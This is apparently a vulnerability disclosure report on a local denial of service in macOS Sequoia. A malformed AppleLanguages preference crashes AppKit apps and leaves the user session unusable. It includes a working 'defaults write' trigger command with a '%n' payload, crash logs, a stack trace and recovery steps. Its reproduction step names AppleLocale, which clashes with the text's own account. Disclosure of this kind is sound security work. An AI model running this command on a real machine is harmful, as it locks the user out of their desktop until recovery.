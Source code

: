 # User session corruption and local Denial-of-Service via null pointer dereference on macOS global localization variables

# Summary

macOS Sequoia 15.3.2 and lower are vulnerable to a local Denial of Service vulnerability via a null pointer dereference by abusing the format used to store variables. This happens by setting up the `AppleLanguages` global variable, using a format for storing strings instead of the format for storing array elements; this causes the crash. The vulnerability can be triggered by opening any macOS application that either uses the `AppleLanguages` global variable - namely all AppKit-based macOS applications, e.g. `System Settings.app` and `Dock.app`.

# Explanation

The vulnerability is triggered when the `AppleLanguages` global variable, which takes arrays as inputs, is set with the syntax that would be used for a string-based variable. The correct way to set this variable is

`defaults write -g AppleLanguages '("en_US")'`

, while the vulnerable way consists of passing a direct string, like this:

`defaults write -g AppleLanguages "en_US"`

This value is then stored on the following .plist files:
* `$HOME/Library/Preferences/.GlobalPreferences.plist`
* `$HOME/Library/Preferences/.GlobalPreferences_m.plist`

After setting the global variable to any value (`"%n%n%n%n%n%n%n%n%n%n%n%n%n%n%n%n"` was used as a payload for a format string vulnerability) and upon debugging a process like `System Settings.app`, the behavior detected is that the `CFPreferencesCopyValue` function on TBD will return the payload as a NSCFString value. Immediately after, `count` would be called on it with `objc_msgSend`. This leads to a segmentation fault caused by a null pointer dereference. Below is an extract of the fault from a crash log, also attached to this report.

```
"vmRegionInfo" : "0x2aea is not in any region. Bytes before following region: 4305884438\n REGION TYPE START - END [ VSIZE] PRT\/MAX SHRMOD REGION DETAIL\n UNUSED SPACE AT START\n---> \n __TEXT 100a6c000-100ba8000 [ 1264K] r-x\/r-x SM=COW \/System\/Applications\/System Settings.app\/Contents\/MacOS\/System Settings",

"exception" : {"codes":"0x0000000000000001, 0x0000000000002aea","rawCodes":[1,10986],"type":"EXC_BAD_ACCESS","signal":"SIGSEGV","subtype":"KERN_INVALID_ADDRESS at 0x0000000000002aea"},

"termination" : {"flags":0,"code":11,"namespace":"SIGNAL","indicator":"Segmentation fault: 11","byProc":"exc handler","byPid":768},

"vmregioninfo" : "0x2aea is not in any region. Bytes before following region: 4305884438\n REGION TYPE START - END [ VSIZE] PRT\/MAX SHRMOD REGION DETAIL\n UNUSED SPACE AT START\n---> \n __TEXT 100a6c000-100ba8000 [ 1264K] r-x\/r-x SM=COW \/System\/Applications\/System Settings.app\/Contents\/MacOS\/System Settings",

"extMods" : {"caller":{"thread_create":0,"thread_set_state":0,"task_for_pid":0},"system":{"thread_create":0,"thread_set_state":0,"task_for_pid":0},"targeted":{"thread_create":0,"thread_set_state":0,"task_for_pid":0},"warnings":0},
```

# Steps to reproduce

1. Change the AppleLanguages global variables with any payload:
`defaults write -g AppleLocale "%n%n%n%n%n%n%n%n%n%n%n%n%n%n%n%n"`
2. Open `System Settings.app` or reload the Dock application from the Apple logo menu.
3. The payload will be executed.


# Recovery steps

1. Reboot the device into Recovery Mode
2. Unlock the user and hard drive
3. Remove the following files from `/Volumes/Data/Users/username/Library/Preferences/`:
* `./ByHost/com.apple.loginwindow.plist`
* `./loginwindow.plist`
* `/Volumes/Data/System/Volumes/Data/private/var/root/Library/Preferences/.GlobalPreferences.plist`

4. Shutdown or restart the device.

# Expected behavior
Under normal circumstances, the macOS GUI should behave normally and open any AppKit-based application, like `System Settings.app`.
# Actual behavior
An UI corruption happens in form of the Dock application being abruptly terminated, and the UI ending up disabled to any user input after a cold reboot.
# Crash dump
The crash happens at the `+[NSLocale(NSLocale_LanguageExtras) __effectiveLanguageForBundle:]` method.

```
0 CoreFunction 0x000000018176b2ec __exceptionPreprocess + 176
1 libobjc.A.dylib 0x0000000181252788 objc_exception_throw + 60
2 CoreFoundation 0x000000018181d56c -[NSObject (NSObject) __retain_OA] + 0
3 CoreFoundation 0x00000001816d4f3c _forwarding + 1580
4 CoreFoundation 0x00000001816d4850 _CF_forwarding_prep_0 + 96
5 Foundation 0x0000000182f25770 +[NSLocale(NSLocale_LanguageExtras) __effectiveLanguageForBundle:] + 88
6 IconServices 0x000000018fbdd380 +[NSLocale (IconServicesAdditions) _IS_currentLanguageDirection] + 32
7 IconServices 0x000000018fb9a8b0 -[ISImageDescriptor initWithSize:scale:] + 108
8 AppKit 0x000000018fb9a8b0 NSISIconImageRepGetCGImage + 112
9 AppKit 0x0000000185066014 __74-[NSImageRep drawInRect:fromRect:operation:fraction:respectFlipped:hints:]_block_invoke + 612
10 AppKit 0x0000000185066754 -INSImageRep drawInRect: fromRect: operation: fraction:respectFlipped:hints:] + 628
11 AppKit 0x0000000185570004 __71-[NSImage drawInRect: fromRect:operation: fraction:respectFlipped:hints:]_block_invoke.1392 + 680
12 AppKit 0x000000018504e700 -[NSImage _usingBestRepresentationForRect:context:hints:body:] + 148
13 AppKit 0x0000000185066434 -[NSImage drawInRect:fromRect:operation:fraction:respectFlipped:hints:] + 1328
14 AppKit 0x0000000185570354 -[NSImage drawInRect :withState:backgroundStyle:tintColor:operation:fraction:flip:hints:] + 312
15 AppKit 0x0000000185477d90 __22-[NSControl drawRect:]_block_invoke + 96
16 AppKit 0x000000018506d9a4 -[NSControl drawRect:] + 152
17 AppKit 0x000000018506d7d4 _NSViewDrawRect + 124
18 AppKit 0x00000001859fecf0 -[NSView _recursive:displayRectIgnoring0pacity:inContext:stopAtLayerBackedViews:] + 1088
19 AppKit 0x000000018506d1d8 -[NSView(NSLayerKitGlue) _drawViewBackingLayer:inContext:drawingHandler:] + 556
20 AppKit 0x00000001855a1f80 -[NSViewBackingLayer drawInContext:] + 56
21 AppKit 0x000000018530a444 block_destroy_helper.34 + 20096
22 AppKit 0x000000018532c8ec _swift_stdlib_malloc_size + 37128
23 AppKit 0x00000001852da840 _NSCDisplayListGetHash + 3072
24 AppKit 0x000000018532c4e8 _swift_stdlib malloc_size + 36100
25 AppKit 0x0000000185329e84 _swift_stdlib_malloc_size + 26272
26 AppKit 0x000000018530a0c8 block_destroy_helper.34 + 19204
27 AppKit 0x000000018530a4a4 block_destroy_helper.34 + 20192
28 AppKitv 0x0000000185521bb4 -[NSViewBackingLayer display] + 1272
29 QuartzCore 0x0000000189904428 _ZN2CA5Layer17display_if_neededEPNS_11TransactionE + 744
30 QuartzCore 0x0000000189a891a4 _ZN2CA7Context18commit_transactionEPNS_11TransactionEdPd + 512
31 QuartzCore 0x00000001898e6e4c _ZN2CA11Transaction6commitEv + 648
32 AppKit 0x000000018507c9d0 __62+[CATransaction(NSCATransaction) NS_setFlushesWithDisplayLinkJ_block_invoke + 272
33 AppKit 0x0000000185a3c208 ___NSRunLoopObserverCreateWithHandler_block_invoke + 64
34 CoreFoundation 0x00000001816f587c __CFRUNLOOP_IS_CALLING_OUT_TO_AN_OBSERVER_CALLBACK_FUNCTION__ + 36
35 CoreFoundation 0x00000001816f5768 __CFRunLoopDoObservers + 536
36 CoreFoundation 0x00000001816f4d94 __CFRunLoopRun + 776
37 CoreFoundation 0x00000001816f4434 CFRunLoopRunSpecific + 608
38 HIToolBox 0x000000018be9819c RunCurrentEventLoopInMode + 292
39 HIToolBox 0x000000018be97fd8 ReceiveNextEventCommon + 648
40 HIToolBox 0x000000018be97d30 _BlockUntilNextEventMatchingListInModeWithFilter + 76
41 AppKit 0x0000000184f53d68 _DPSNextEvent + 660
42 AppKit 0x0000000185749808 -[NSApplication(NSEventRoutig) _nextEventMatchingEventMask:untilDate:Mode:dequeue:] + 700
43 AppKit 0x0000000184f4709c -[NSApplication run] + 476
44 AppKit 0x0000000184f1e2e0 NSApplicationMain + 880
45 dyld 0x000000018128e0e0 start + 2360
```

Details of the logged error with the `__NSCFString` memory address that can store a particular payload:

```
"exceptionReason" : {"arguments":["__NSCFString","count","0x15d1063f0"],"format_string":"-[%s %s]: unrecognized selector sent to instance %p","name":"NSInvalidArgumentException","type":"objc-exception","composed_message":"-[__NSCFString count]: unrecognized selector sent to instance 0x15d1063f0","class":"NSException"}
```

# Proof of Concept

Proof of concept video with impact and recovery demo available [here](https://youtu.be/wyUoXsxVTvc).
